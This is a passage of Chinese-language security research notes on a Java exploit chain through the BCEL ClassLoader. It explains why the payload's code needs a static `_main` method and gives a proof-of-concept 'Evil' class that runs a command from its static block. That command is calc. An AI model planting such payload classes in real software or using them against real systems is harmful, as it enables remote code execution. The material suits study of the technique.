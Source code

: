 ![image-20230621194718109](../.gitbook/assets/image-20230621194718109.png)

`loader`在实例化时被初始化为`com.sun.org.apache.bcel.internal.util.ClassLoader`（该ClassLoader继承了`java.lang.ClassLoader`）

但是BCEL的`ClassLoader`并不会对类进行初始化`initial`，所以不会马上执行静态代码块

得写一个`_main`让`runMain`走到后面的逻辑，调用恶意类的`_main`的时候才会执行静态代码块

设置`_main`方法为静态方法，才不会抛出异常

```java
public class Evil {
    static {
        try {
            System.out.println("static block");
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {}
    }
    public static void _main(String[] argv) throws Exception {
        System.out.println("_main");
        Runtime.getRuntime().exec("calc");
    }
}
```
